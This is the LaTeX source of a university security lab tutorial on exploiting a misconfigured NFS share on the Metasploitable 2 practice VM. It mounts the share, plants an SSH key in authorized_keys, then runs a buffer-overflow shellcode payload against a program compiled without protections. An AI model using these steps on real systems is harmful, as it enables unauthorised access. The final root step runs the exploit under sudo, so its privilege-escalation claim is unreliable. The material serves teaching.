\documentclass{article}
\usepackage[top=3.1cm, bottom=3.1cm, left=2.5cm, right=2.5cm]{geometry}
\usepackage[T1]{fontenc}
\usepackage[utf8]{inputenc}
\usepackage[english]{babel}
\usepackage{graphicx}
\usepackage[toc,page]{appendix} 
\usepackage{eurosym}
\usepackage{gensymb}
\usepackage[dvipsnames]{xcolor}
\usepackage[normal]{caption}
\usepackage{mathtools, bm}
\usepackage{amssymb, bm}
%\usepackage{wrapfig}
\usepackage{floatflt}
\usepackage{enumitem}
\usepackage{MnSymbol,wasysym}
\usepackage[export]{adjustbox}
\usepackage{float}
\usepackage{fancyhdr}
\pagestyle{fancy}
\usepackage{titlesec}
\usepackage{soul}
\usepackage{amsmath,amsfonts,amssymb}
\usepackage{hyperref}
\usepackage{qtree}
%\usepackage{chemfig}
\usepackage{tikz}
\usepackage{pgfplots}
\usepackage{multicol}
\usepackage{multirow}
\usepackage{pgffor}
\usepackage{qtree}
%\usepackage{mhchem}
%\usepackage[demo]{graphicx}
\usepackage{subcaption}
\usepackage{listings}
\usepackage[squaren, Gray, cdot]{SIunits}
\usepackage{inconsolata}
\usepackage{minted}
%\usepackage{syntax} %Fait planter latex pour une raison quelconque

\usepackage{color}
\definecolor{pblue}{rgb}{0.13,0.13,1}
\definecolor{pgreen}{rgb}{0,0.5,0}
\definecolor{pred}{rgb}{0.9,0,0}
\definecolor{pgrey}{rgb}{0.46,0.45,0.48}
\definecolor{mediumslateblue}{rgb}{0.48, 0.41, 0.93}
\definecolor{electricviolet}{rgb}{0.56, 0.0, 1.0}

\newcommand{\bmat}[4]{\begin{bmatrix} #1 & #2 \\ #3 & #4\end{bmatrix}}
\newcommand{\bmatn}[9]{\begin{bmatrix} #1 & #2 & #3\\ #4 & #5 & #6 \\ #7 & #8 & #9\end{bmatrix}}

\renewcommand{\labelitemii}{$\bullet$}
\renewcommand{\labelitemiii}{$\circ$}
%\renewcommand{\labelitemiv}{$\bullet$}


\newcommand{\codecourse}{LINGI2144}
\newcommand{\titlecourse}{Secured System Engineering}
\newcommand{\othor}{\\
\textsc{Crochet} Christophe\\
\textsc{Duchene} Fabien\\
\textsc{Given-Wilson} Thomas\\
\textsc{Strebelle} Sebastien}
\newcommand{\professor}{\textsc{Legay} Axel}
\newcommand{\ayear}{2020 - 2021}
\newcommand{\year}{2020}

\newenvironment{Figure} %for multicols
  {\par\medskip\noindent\minipage{\linewidth}}
  {\endminipage\par\medskip}

\usepackage{listings}

\lstset{
  basicstyle=\ttfamily,
  keywordstyle=\color{pblue},
  keywordstyle=[2]{\color{mediumslateblue}},
  keywordstyle=[3]{\color{electricviolet}},
  identifierstyle=\color{black},
  commentstyle=\itshape\color{pgreen},
  stringstyle=\color{pred},
  language=Java,
  showspaces=false,
  showtabs=false,
  breaklines=true,
  showstringspaces=false,
  breakatwhitespace=true,
  aboveskip=0.3cm,belowskip=0.3cm,
  mathescape=true,
  moredelim=[il][\textcolor{pgrey}]{\$\$},
  moredelim=[is][\textcolor{pgrey}]{\%\%}{\%\%},
  morekeywords={then,end,type,String},
  morekeywords=[2]{invariant,variant,var},
  extendedchars=true,
  literate=
	{á}{{\'a}}1 {é}{{\'e}}1 {í}{{\'i}}1 {ó}{{\'o}}1 {ú}{{\'u}}1
	{Á}{{\'A}}1 {É}{{\'E}}1 {Í}{{\'I}}1 {Ó}{{\'O}}1 {Ú}{{\'U}}1
	{à}{{\`a}}1 {è}{{\`e}}1 {ì}{{\`i}}1 {ò}{{\`o}}1 {ù}{{\`u}}1
	{À}{{\`A}}1 {È}{{\'E}}1 {Ì}{{\`I}}1 {Ò}{{\`O}}1 {Ù}{{\`U}}1
	{ä}{{\"a}}1 {ë}{{\"e}}1 {ï}{{\"i}}1 {ö}{{\"o}}1 {ü}{{\"u}}1
	{Ä}{{\"A}}1 {Ë}{{\"E}}1 {Ï}{{\"I}}1 {Ö}{{\"O}}1 {Ü}{{\"U}}1
	{â}{{\^a}}1 {ê}{{\^e}}1 {î}{{\^i}}1 {ô}{{\^o}}1 {û}{{\^u}}1
	{Â}{{\^A}}1 {Ê}{{\^E}}1 {Î}{{\^I}}1 {Ô}{{\^O}}1 {Û}{{\^U}}1
	{œ}{{\oe}}1 {Œ}{{\OE}}1 {æ}{{\ae}}1 {Æ}{{\AE}}1 {ß}{{\ss}}1
	{ű}{{\H{u}}}1 {Ű}{{\H{U}}}1 {ő}{{\H{o}}}1 {Ő}{{\H{O}}}1
	{ç}{{\c c}}1 {Ç}{{\c C}}1 {ø}{{\o}}1 {å}{{\r a}}1 {Å}{{\r A}}1
	{€}{{\EUR}}1 {£}{{\pounds}}1
}
\pagenumbering{roman}
\title{\codecourse : \titlecourse}
\author{\othor}
\date{September \year}
\fancyhead[R]{\codecourse}

\renewcommand{\footrulewidth}{pt}
\fancyfoot[L]{\codecourse}
\fancyfoot[C]{Page \thepage}
\fancyfoot[R]{\year}

\newcommand{\colR}[1]{\color{red}{#1}}
\newcommand{\colRB}[1]{\color{red}{[#1]}}
\newcommand{\sep}{\ \wedge\ }

\DeclareMathOperator{\fib}{fib}
\DeclareMathOperator{\ok}{ok}
\DeclareMathOperator{\abs}{abs}

\pgfplotsset{compat=1.14}

\begin{document}
        \hfill
\includegraphics[scale=0.5]{image/logoepl.png}
        
        \vspace*{\fill}
            
        \begin{center}
        
            \rule{1\textwidth}{1pt}\\
	            \vspace{0.5\baselineskip}
		            \begin{LARGE}
	                	\textbf{\codecourse : \titlecourse}\\
	                	NFS share vulnerability
		            \end{LARGE}
		        \vspace{0.5\baselineskip}       
	        \rule{1\textwidth}{1pt}\\
	        
	        \vspace{0.5\baselineskip}
	        
	        
\includegraphics[scale=1.5]{image/MCP.jpg}\\

	        \vspace{0.5\baselineskip}
	            Academic year : \ayear\\
                
		\end{center}
		
            \vspace*{\fill}
            
        \begin{tabular}{l@{\hspace{0.0cm}}r}
        
                \begin{minipage}{7cm}\noindent\textbf{Teacher :} \professor\\
                \noindent\textbf{Course :} \codecourse\\
                \noindent\textbf{Collaborators :} \othor 
                \end{minipage}
                &
                
        \end{tabular} 

\newpage

%\tableofcontents

\newpage
\pagenumbering{arabic}
%\begin{itemize} //Bullet points
%    \item [$\bullet$]
%    \item [$\bullet$]
%\end{itemize}

%\begin{multicols}{2} //Multicolonne
%
%\vfill\null
%\columnbreak
%
%\end{multicols}

%\begin{figure}[h]
%    \centering
%    \includegraphics[scale = 0.7]{image/10.PNG}
%    \caption{Titre}
%    \label{fig:titre}
%\end{figure}


\section{Prerequisite}

Download the vulnerable VM:
\begin{center}
    \url{https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip/download}
\end{center}

\noindent Also configure your VM network with bridge access.

\noindent To install it in VirtualBox follow:
\begin{center}
    \url{https://www.gladir.com/SOFTWARE/VIRTUALBOX/comment-ouvrir-un-fichier-vmdk-existant-dans-virtualbox.htm}
\end{center}


\noindent Connection:
\begin{table}[h!]
\centering
\label{tab:my-table}
\begin{tabular}{c|c}
\textbf{username} & \textbf{password} \\ \hline
msfadmin          & msfadmin         
\end{tabular}
\end{table}

\noindent Last note: put belgian keyboard:
\begin{itemize}
    \item \lstinline{setxkbmap be} (for graphical interface)
    \item \lstinline{sudo loadkeys be} (\textbf{for linux terminal})
\end{itemize}

\section{Exercise}

NFS stands for "Network File System" and allow the storage and retrieval of data from multiple disks and directories across a shared network. A network file system enables local users to access remote data and files in the same way they are accessed locally. \\NFS uses TCP/UDP on \textbf{port 2049} for sharing any file/directories. \footnote{\url{https://www.techopedia.com/definition/1845/network-file-system-nfs}}\\

\noindent The NFS share vulnerability is caused by misconfigured NFS setup which basically consist in 3 main files. See \url{https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/} for more technical reason on this.\\


\noindent Let's start this tutorial:
\begin{itemize}
    \item (On NFS server) 
    \begin{enumerate}
        \item Put \lstinline{ifconfig -a} to get your IP address <X>
    \end{enumerate}
    \item (On kali: root/terminal1) 
    \begin{enumerate}
        \item With \lstinline{nmap} which allow to make some scan on IP address
        \begin{center}
            \lstinline{nmap -sV <X>}
        \end{center}
        \begin{center}
            
\includegraphics[scale=0.6]{image/1-nmap.PNG}
        \end{center}
        \item Show the mount information of NFS server with
        \begin{center}
            \lstinline{sudo showmount -e <x>}
        \end{center}
        \begin{center}
            
\includegraphics[scale=0.6]{image/2-showmount.PNG}
        \end{center}
        \item Create a temporary folder to mount it and mount it:
        \begin{center}
            \lstinline{mkdir /tmp/nfssharevuln}\\
            \lstinline{sudo mount -t nfs <x>:/ /tmp/nfssharevuln}
        \end{center}
        \begin{center}
            
\includegraphics[scale=0.6]{image/3-mount.PNG}
        \end{center}
        \item Go in the msfadmin folder with:
        \begin{center}
            \lstinline{cd /tmp/nfssharevuln/home/msfadmin}
        \end{center}
        Now with \lstinline{ls -al} we can see than there is a hidden folder called \lstinline{.ssh/}
        \begin{center}
            
\includegraphics[scale=0.6]{image/5-shh.PNG}
        \end{center}
    \end{enumerate}
    \newpage
    \item (On kali: root/terminal2) 
    \begin{enumerate}
        \item To do the exploit, now generate a ssh key with 
        \begin{center}
            \lstinline{ssh-keygen}
        \end{center}
        \begin{center}
            
\includegraphics[scale=0.6]{image/6-key.PNG}
        \end{center}
        \item And print the result of \lstinline{nfssharevuln_rsa}
        \begin{center}
            
\includegraphics[scale=0.6]{image/7-catrsa.PNG}
        \end{center}
    \end{enumerate}
    \item (On kali: root/terminal1) 
    \begin{enumerate}
        \item Now back on our first terminal, put the content of your key in the \lstinline{authorized_keys} file of the \lstinline{.ssh} folder.
        \begin{center}
            \lstinline{echo ssh-rsa <key> >> authorized_keys}
        \end{center}
        \begin{center}
            
\includegraphics[scale=0.6]{image/8-echo.PNG}
        \end{center}
        \item Finally connect to the NFS with ssh:
        \begin{center}
            \lstinline{ssh -i nfssharevuln_rsa  msfadmin@<x>}
        \end{center}
        \begin{center}
            
\includegraphics[scale=0.6]{image/9-connectionssh.PNG}
        \end{center}
    \end{enumerate}
    \item (ssh:/home/msfadmin)
    \begin{enumerate}
        \item Once done, we will now try to get all privileges, one could do that with \lstinline{setuid()} exploit for example. Here we will do that with buffer overflow coupled with shellcode.\\
        
        To do so, write a vulnerable code, such as:
        \begin{minted}[frame=lines,framesep=2mm,baselinestretch=1.2,fontsize=\footnotesize,linenos]{C}
#include <stdio.h> 
#include <string.h>
void reply(char *argv) {
   char buf[256];
   strcpy(buf,argv);
   puts(buf);
}
int main(int argc, char* argv[]) {
    if(argc != 2) printf("Usage: ./echo-prompt <arg1>\n");
    else          reply(argv[1]);
    return(0);
}
\end{minted}
    You can use another code of course.
    \item And compile it without any protection since you want to exploit it:
    \begin{center}
        \lstinline{gcc -g -fno-stack-protector -z execstack vulnerable.c -o vulnerable_file}
    \end{center}
    We also need to disable ASLR with
    \begin{center}
        \lstinline{/proc/sys/kernel/randomize_va_space // put 0}
    \end{center}
    \item Everything is now ready, perform the buffer overflow and inject the shellcode to become root: (all calculation step for this part is skipped, but the following one work for me)
    \begin{minted}[frame=lines,framesep=2mm,baselinestretch=1.2,fontsize=\footnotesize,linenos]{bash}
./vulnerable_file  `perl -e 'print "\x90"x220 .
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89
    \xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"  
    . "\x90\xf1\xff\xbf"'` 
\end{minted}

     \begin{center}
            
\includegraphics[scale=0.6]{image/12-noroot.PNG}
        \end{center}
        
    \begin{minted}[frame=lines,framesep=2mm,baselinestretch=1.2,fontsize=\footnotesize,linenos]{bash}
sudo ./vulnerable_file  `perl -e 'print "\x90"x220 .
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89
    \xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"  
    . "\x90\xf1\xff\xbf"'` 
\end{minted}
 \begin{center}
            
\includegraphics[scale=0.6]{image/14-root.PNG}
        \end{center}
        Everything is done, we are now connect as root !
    \end{enumerate}
\end{itemize}



% \begin{small}
% \medskip
% \bibliographystyle{IEEEtran}
% \bibliography{bib}
% \nocite{*}
% \renewcommand\mkbibnamefamily[1]{\textbf{#1}}
% \end{small}
\end{document}
